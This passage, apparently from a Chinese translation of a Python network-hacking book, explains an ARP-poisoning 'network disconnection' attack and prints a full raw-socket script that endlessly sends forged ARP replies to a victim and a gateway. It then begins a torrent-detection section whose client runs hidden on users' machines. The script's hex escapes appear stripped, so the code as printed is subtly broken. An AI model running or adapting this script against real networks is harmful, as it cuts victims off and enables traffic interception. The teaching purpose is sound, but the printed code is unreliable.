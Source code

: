 在此攻击中，受害者将保持与网关的连接，但无法与外部网络通信。简言之，受害者将保持与路由器的连接，但无法浏览互联网。这种攻击的原理与 ARP 缓存中毒相同。攻击将向受害者发送 ARP 回复数据包，该数据包将使用另一个 MAC 更改受害者 ARP 缓存中网关的 MAC 地址。同样的事情也发生在网关中。

该代码与 ARP 欺骗的代码相同，只是有一些变化，解释如下：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x48x41x43x4bx45x52'

victmac ='x00x0Cx29x2Ex84x7A'
gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

运行`netdiss.py`。我们可以看到代码中只有一个变化：`sor = 'x48x41x43x4bx45x52'`。这是一个随机 MAC，因为此 MAC 不存在

为了实施 ARP 缓存中毒攻击，受害者应该在 ARP 缓存中拥有网关的真实条目。

你可能想知道我们为什么使用`'x48x41x43x4bx45x52'`MAC。把它转换成 ASCII，你就会得到答案。

# 洪流检测

网络管理员的主要问题是停止在用户机器上使用 torrents。有时，一个小型组织或初创公司没有足够的资金购买防火墙来阻止 torrent 的使用。在组织中，用户使用 torrent 下载电影、歌曲等，这会占用大量带宽。在本节中，我们将看到如何使用 Python 程序消除此问题。我们的程序将在 torrent 程序运行时检测 torrent

该概念基于客户机-服务器体系结构。服务器代码将在管理计算机上运行，客户端代码将在用户的计算机上以隐藏模式运行。当用户使用 torrent 时，客户端代码将通知服务器计算机

首先，查看下面的服务器代码并尝试理解代码。代码名为`torrent_detection_server.py`：
